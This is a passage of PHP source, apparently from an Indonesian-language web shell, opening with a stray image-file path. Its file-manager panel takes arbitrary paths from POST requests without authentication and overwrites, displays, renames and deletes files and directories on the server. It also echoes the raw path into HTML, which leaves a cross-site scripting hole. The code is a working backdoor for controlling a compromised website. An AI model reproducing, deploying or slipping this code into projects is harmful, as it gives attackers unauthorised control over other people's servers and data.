 <input type="hidden" name="path" value="'.$_POST['path'].'">
<input type="hidden" name="opt" value="rename">
<input type="submit" value="Go" />
</form>';
}elseif($_POST['opt'] == 'edit'){
if(isset($_POST['src'])){
$fp = fopen($_POST['path'],'w');
if(fwrite($fp,$_POST['src'])){
echo '<font color="green">Edit File Berhasil</font><br />';
}else{
echo '<font color="red">Edit File Gagal</font><br />';
}
fclose($fp);
}
echo '<form method="POST">
<textarea cols=80 rows=20 name="src">'.htmlspecialchars(file_get_contents($_POST['path'])).'</textarea><br />
<input type="hidden" name="path" value="'.$_POST['path'].'">
<input type="hidden" name="opt" value="edit">
<input type="submit" value="Go" />
</form>';
}
echo '</center>';
}else{
echo '</table><br /><center>';
if(isset($_GET['option']) && $_POST['opt'] == 'delete'){
if($_POST['type'] == 'dir'){
if(rmdir($_POST['path'])){
echo '<font color="green">Menghapus Directory Berhasil</font><br />';
}else{
echo '<font color="red">Menghapus Directory Gagal</font><br />';
}
}elseif($_POST['type'] == 'file'){
if(unlink($_POST['path'])){
echo '<font color="green">Delete File Done.</font><br />';
}else{
echo '<font color="red">Delete File Error.</font><br />';
}
}
}
echo '</center>';
$scandir = scandir($path);
echo '<div id="content"><table width="700" border="0" cellpadding="3" cellspacing="1" align="center">
<tr class="first">
<td><center>Name</center></td>
<td><center>Size</center></td>
<td><center>Permissions</center></td>
<td><center>Options</center></td>
</tr>';
